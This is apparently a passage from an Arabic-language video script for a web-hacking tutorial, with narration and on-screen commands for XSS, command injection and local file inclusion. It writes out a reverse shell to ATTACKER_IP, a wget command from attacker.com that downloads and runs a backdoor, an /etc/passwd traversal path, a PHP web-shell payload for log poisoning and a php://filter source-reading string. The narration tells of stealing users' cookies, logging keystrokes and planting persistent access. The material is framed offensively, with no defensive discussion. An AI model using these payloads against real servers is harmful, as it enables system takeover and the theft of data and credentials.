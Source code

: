 **المعلق الصوتي:**
"نلاحظ أن الكود الضار تم تنفيذه بنجاح، مما سمح لنا بسرقة كوكيز المستخدم وتسجيل جميع ضغطات المفاتيح."

---

## القسم الرابع: Command Injection - السيطرة على النظام (الدقيقة 12-16)

### [المشهد: شاشة الطرفية مع تنفيذ الأوامر]

**المعلق الصوتي:**

"ثغرة Command Injection هي من أخطر الثغرات لأنها تسمح لنا بتنفيذ أوامر نظام تشغيل مباشرة على الخادم."

**الأوامر التي تظهر:**
```bash
# استخراج معلومات النظام
; id; whoami; uname -a

# إنشاء Reverse Shell
; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# تنزيل وتركيب باك دور
; wget http://attacker.com/backdoor -O /tmp/backdoor; chmod +x /tmp/backdoor; /tmp/backdoor
```

**المعلق الصوتي:**
"النتيجة: تمكنا من الحصول على وصول كامل للنظام، مما سمح لنا بتنفيذ أوامر بصلاحيات خادم الويب وتركيب نقاط دخول دائمة."

---

## القسم الخامس: LFI - قراءة الملفات الحساسة (الدقيقة 16-20)

### [المشهد: محاولة تضمين ملفات مختلفة]

**المعلق الصوتي:**

"ثغرة Local File Inclusion تسمح لنا بقراءة ملفات حساسة من على الخادم، مما قد يؤدي إلى الكشف عن معلومات مهمة."

**الأوامر التي تظهر:**
```
# قراءة ملفات النظام
../../../etc/passwd

# تسميم السجلات
<?php system($_GET['cmd']); ?>

# استخدام مرشحات PHP
php://filter/read=convert.base64-encode/resource=index.php
```
